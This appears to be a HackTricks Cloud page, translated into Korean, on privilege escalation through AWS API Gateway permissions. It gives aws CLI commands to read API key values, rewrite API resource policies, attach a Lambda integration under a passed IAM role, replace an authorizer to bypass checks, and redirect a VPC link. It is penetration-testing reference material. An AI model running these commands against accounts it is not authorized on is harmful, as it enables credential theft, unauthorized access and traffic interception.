 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

이 권한을 사용하면 구성된 API의 API 키를 생성할 수 있습니다(지역별).
```bash
aws --region <region> apigateway create-api-key
```
**잠재적 영향:** 이 기술로는 권한 상승을 할 수 없지만, 민감한 정보에 접근할 수 있습니다.

### `apigateway:GET`

이 권한으로 구성된 API의 생성된 API 키를 가져올 수 있습니다(지역별).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**잠재적 영향:** 이 기술로는 권한 상승을 할 수 없지만 민감한 정보에 접근할 수 있습니다.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

이 권한을 사용하면 API의 리소스 정책을 수정하여 자신에게 호출할 수 있는 권한을 부여하고 API 게이트웨이가 가질 수 있는 잠재적 접근을 악용할 수 있습니다(예: 취약한 람다 호출). 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**잠재적 영향:** 일반적으로 이 기술로 직접적으로 권한 상승을 할 수는 없지만, 민감한 정보에 접근할 수 있을 수 있습니다.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
테스트 필요
{% endhint %}

`apigateway:PutIntegration`, `apigateway:CreateDeployment`, 및 `iam:PassRole` 권한을 가진 공격자는 **IAM 역할이 연결된 Lambda 함수로 기존 API Gateway REST API에 새로운 통합을 추가할 수 있습니다**. 그런 다음 공격자는 **Lambda 함수를 트리거하여 임의의 코드를 실행하고 IAM 역할과 관련된 리소스에 접근할 수 있습니다**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적 영향**: Lambda 함수의 IAM 역할과 관련된 리소스에 대한 접근.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
테스트 필요
{% endhint %}

`apigateway:UpdateAuthorizer` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway 인증자를 수정**하여 보안 검사를 우회하거나 API 요청이 있을 때 임의의 코드를 실행할 수 있습니다.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적 영향**: 보안 검사를 우회하고, API 리소스에 대한 무단 접근.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
테스트 필요
{% endhint %}

`apigateway:UpdateVpcLink` 권한을 가진 공격자는 **기존 VPC 링크를 수정하여 다른 네트워크 로드 밸런서를 가리키게 할 수 있으며, 이는 개인 API 트래픽을 무단 또는 악의적인 리소스로 리디렉션할 수 있습니다**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**잠재적 영향**: 비공식 API 리소스에 대한 무단 접근, API 트래픽의 가로채기 또는 중단.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
